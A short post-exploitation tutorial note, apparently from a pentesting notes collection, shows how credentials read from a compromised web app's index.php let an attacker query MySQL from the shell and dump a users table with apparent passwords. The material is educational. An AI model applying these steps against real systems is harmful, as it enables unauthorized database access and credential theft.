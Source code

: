 # MySQL Commands
MySQL can be open on the target server with connections only allowed from localhost. For instance, say we have command injection on a web application and we cat the file `index.php` which includes connections strings to the target's MySQL server as so,
```
...(SNIPPED)...
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
...(SNIPPED)...
```
We now know that we can make SQL queries directly from the compromised machine, like so,
```
www-data@target-system:~# mysql -u john -phiroshima -e 'show databases'
mysql
test
webapp
www-data@target-system:~# mysql -u john -phiroshima -D webapp -e 'show tables'
users
www-data@target-system:~# mysql -u john -phiroshima -D webapp -e 'select * from users'
1	admin	5afac8d85f
2	john	66lajGGbla
```
**NOTE:** The `-phiroshima` is not a typo as `-p` requires that you do not include a space before the actual password. The actual password is `hiroshima`
